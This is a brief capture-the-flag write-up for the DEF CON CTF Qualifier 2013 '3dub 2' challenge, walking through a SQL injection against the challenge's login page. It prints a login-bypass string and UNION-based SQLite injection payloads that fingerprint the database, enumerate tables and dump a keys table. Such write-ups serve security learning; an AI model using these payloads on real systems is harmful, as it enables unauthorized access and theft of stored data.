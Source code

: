 ```yaml
---
title: DEF CON CTF Qualifier 2013 3dub 2 Writeup
author: DeAdCaT___
layout: post
permalink: /def-con-ctf-qualifier-2013-3dub-2-writeup/
categories:
  - writeup
---
```

This is just another appetizer.

URL is

    http://babysfirst.shallweplayaga.me:8041/
    

First I login use

    username:    admin' or '1'='1
    password:    admin' or '1'='1
    

Then I got in it as root but see nothing, Seeing the header, there is the SQL query that made by me, It&#8217;s kindly like a SQLi problem.

By this

    a' UNION ALL SELECT sqlite_version() --
    

I see some number represent that the database behind the webpage is sqlite.

Then it is easy

    a' UNION ALL SELECT name from sqlite_master --
    

It returns

    babysfirst
    
    success!
    
    logged in as keys
    

Then

    a' UNION ALL SELECT * from keys --
    

You will get the key.